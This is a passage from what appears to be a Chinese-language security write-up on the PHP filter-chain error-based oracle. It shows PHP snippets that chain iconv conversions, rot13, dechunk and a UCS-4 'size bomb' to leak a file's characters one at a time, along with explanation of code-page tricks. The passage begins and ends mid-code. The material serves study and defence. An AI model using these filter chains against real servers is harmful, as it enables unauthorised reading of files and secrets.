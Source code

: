 ```php
}
```

读者可以自行去运行。  
通过这个得出结论是我们可以通过这一段来确定开头字母是`a`、`b`、`c`、`d`、`e`这几个字母（他会在这些字母之后报error）

同样的我们用rot13可以判断`n`、`o`、`p`、`q`、`r`，

```php
<?php

$string = "START";
$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars|";
    $rot13filter = "string.rot13|";
    $filter = "php://filter/$rot13filter$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."rqpon"[$i-1]."\n";
}
```

### Retrieving \[0-9\] characters

这里就用到base64编码和解码的知识，可以看看我之前写的filterchain  
就行了。然后这里就写一个表总结一下

![Pasted image 20240725205719.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-31f4be46cb5a5751c7b201a77ac802b6a4478c8b.png)  
这样子就很容易知道是数字几了。

### Retrieving other letters

这个具体也是利用前面说的利用IBM和ASCII的特性区别来进行确定。  
例如：Z在ASCII表示为0x5A，而在IBM-285中0x5A却表示`!`  
然后转化为IBM-280他就会变成0x4F，然后0x4F又表示o在ASCII中，我们再用rot13来过滤一下他就会变成B，也就刚好是dechunk获取到的B了。  
具体的就不用多说了吧。

### Invalid multi-bytes sequence explanation

```php
<?php

$size_bomb = "";
for ($i = 1; $i <= 20; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $swap_bits = "convert.iconv.UTF16.UTF16|convert.iconv.UCS-4LE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UCS-4LE.UCS-4|";
```